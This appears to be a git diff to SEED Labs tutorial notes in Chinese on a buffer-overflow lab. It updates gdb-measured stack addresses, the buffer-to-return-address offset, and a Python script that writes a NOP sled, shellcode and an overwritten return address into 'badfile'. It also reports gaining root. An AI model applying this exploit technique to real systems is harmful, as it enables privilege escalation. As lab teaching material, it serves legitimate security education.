

实现缓冲区溢出攻击

Changed region(s): [[0.0, 0.0, 1.0, 0.8296], [0.0, 0.8296, 0.5471, 0.9778]]

diff --git a/docs/overflow/env-perpare.md b/docs/overflow/env-perpare.md
@@ -88,19 +88,20 @@ sudo apt install gdb -y
 ![gdb调试1](../img/overflow-gdb1.png)
 ![gdb调试2](../img/overflow-gdb2.png)
 
-  从结果可知，帧指针0xffffd538，返回地址保存在0xffffd538 + 4，第一个NOP指令在0xffffd538 + 8，
-因此可以将0xffffd538 + 8作为恶意代码的入口地址，把它写入返回地址字段中。  
+  从结果可知，帧指针0xbffff528，返回地址保存在0xbffff528 + 4，第一个NOP指令在0xbffff528 + 8，
+因此可以将0xbffff528 + 8作为恶意代码的入口地址，把它写入返回地址字段中。  
   返回地址字段在输入数据中又处于哪个位置？由于输入复制到buffer中，为了让输入中的返回地址字段准确地覆盖栈中的返回
 地址区域，需要知道栈中buffer和返回地址区域之间的距离，这个距离就是返回地址字段在输入数据中的相对位置。  
-  图中得知了buffer的起始地址，ebp到buffer的起始处的距离为556，由于返回地址区域在rbp指向位置上面的4字节处，
-因此返回地址区域到buffer起始处的距离就是560。
+  图中得知了buffer的起始地址，ebp到buffer的起始处的距离为108，由于返回地址区域在ebp指向位置上面的4字节处，
+因此返回地址区域到buffer起始处的距离就是112。
 
 !!! gdb调试命令
 
     b foo在foo函数处设置一个断点  
     run 运行到断点处  
-    p $rbp 打印帧指针，32位程序用p $ebp  
+    p $ebp 打印帧指针，32位程序用p $ebp  
     p/d 表示用十进制打印  
+    next 查看下一个语句  
 
 !!! 64位系统和32位系统区别
 
@@ -137,9 +138,12 @@ content = bytearray(0x90 for i in range(300))
 start = 300 - len(shellcode)
 content[start:] = shellcode
 
-ret = 0xffffd538 + 100
-content[560:564] = (ret).to_bytes(4, byteorder='little')
+ret = 0xbffff528 + 100
+content[112:116] = (ret).to_bytes(4, byteorder='little')
 file = open("badfile", "wb")
 file.write(content)
 file.close()
 ```
+
+![gdb调试3](../img/overflow-gdb3.png)
+成功溢出攻击得到root权限  &#x1F44D;&#x1F44D;&#x1F44D;

diff --git a/README.md b/README.md
@@ -10,3 +10,11 @@ http://note.blueegg.net.cn/seed-labs
 mkdocs build
 fab dev_upload
 ```
+
+## 安装32位ubuntu系统
+
+```bash
+wget https://cloud-images.ubuntu.com/vagrant/trusty/20191107/trusty-server-cloudimg-i386-vagrant-disk1.box
+vagrant box add ubuntu14.04-i386 trusty-server-cloudimg-i386-vagrant-disk1.box
+```
+
